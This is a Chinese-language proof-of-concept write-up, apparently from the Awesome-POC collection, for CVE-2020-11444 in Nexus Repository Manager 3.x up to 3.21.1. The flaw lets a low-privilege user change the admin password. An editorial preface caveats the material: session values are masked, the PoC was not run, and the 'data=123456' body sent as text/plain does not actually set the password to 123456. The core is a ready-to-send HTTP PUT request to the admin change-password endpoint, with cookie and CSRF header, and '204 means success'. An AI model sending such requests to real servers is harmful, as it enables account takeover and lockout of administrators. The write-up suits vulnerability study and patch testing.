


## 核对与使用边界

- 凭据处理：本文抓包中的可识别会话/防伪或认证值已仅将中段替换为星号，保留首尾及原长度便于对照；遮罩后的历史值不能作为可用登录凭据。原操作、请求方法和攻击表达式保留。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=3.21.1，缺官方修复来源；普通账号权限需证实

代码与实验材料：PUT change-password、204判据，Content-Type:text/plain却body data=123456，实际新密码语义不等于123456

来源证据范围：链接Vulhub10204环境但无11444公告

- **结论使用边界（1）**：密码内容被表单风格前缀改变；依据：text/plain请求data=123456会作为整个字符串而非解析字段；不可无说明声称密码123456。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（2）**：高影响操作缺恢复及权限证据；依据：直接更改admin密码，会锁出用户；完整session、公网Origin无占位。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Nexus Repository Manger change-password 低权限修改管理员密码漏洞 CVE-2020-11444

## 漏洞描述

Nexus Repository Manger存在低权限修改管理员密码漏洞，低权限用户发送特定的请求包可以修改管理员账号密码

## 漏洞影响

```
Nexus  3.x OSS / Pro <= 3.21.1
```

## 环境搭建

https://github.com/vulhub/vulhub/tree/master/nexus/CVE-2020-10204

## 漏洞复现

漏洞触发需要任意账户权限



登录任意用户后修改 NXSESSIONID，发送请求包修改管理员账号密码

```plain
PUT /service/rest/beta/security/users/admin/change-password HTTP/1.1
Host: 
accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.6080434247960143
Content-Type: text/plain
Origin: http://139.198.174.173:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.6080434247960143; NXSESSIONID=76b******************************7ff
Content-Length: 11

data=123456
```

返回204则修改成功




---

> 来源：Threekiii/Awesome-POC
